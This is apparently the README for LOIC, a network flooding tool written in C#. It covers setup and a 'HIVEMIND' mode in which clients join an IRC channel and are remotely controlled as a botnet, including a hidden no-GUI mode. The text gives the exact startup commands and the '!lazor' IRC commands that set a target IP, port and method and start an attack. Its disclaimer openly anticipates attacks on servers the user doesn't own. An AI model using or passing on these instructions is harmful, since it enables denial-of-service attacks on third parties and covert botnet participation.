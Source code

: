 ## INFO

Low Orbit Ion Cannon - An open source network stress tool, written in C#
Based on Praetox's loic project at https://sourceforge.net/projects/loic/

## DISCLAIMER

I, NewEraCracker, am not responsible for how you use this tool.
You cannot blame me if you get caught for attacking servers you don't own.
This tool is released for educational purposes only, and comes with no warranty at all.

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with mono.
Read the wiki at https://github.com/NewEraCracker/LOIC/wiki/ for updated instructions.

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet (though do beware that your client can potentially be
made to do naughty things).

Note: It does NOT allow remote administration of your machine, or anything like that; it
is literally just control of loic itself.

If you want to start up in Hivemind mode, run something like this:
 LOIC.exe /hivemind irc.server.address
It will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
 LOIC.exe /hivemind irc.server.address 1234 #secret
It will connect to irc://irc.server.adress:1234/secret

In order to do Hivemind Hidden mode, run something like this:
 LOIC.exe /hidden /hivemind irc.server.address
It will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message like the following:
!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true

To start an attack, type:
!lazor start

Or just append "start" to the END of the topic:
!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start

To reset loic's options back to its defaults:
!lazor default

To stop an attack:
!lazor stop
and be sure to remove "start" from the END of the topic, if it exists, too.

Take a look at source code for more details.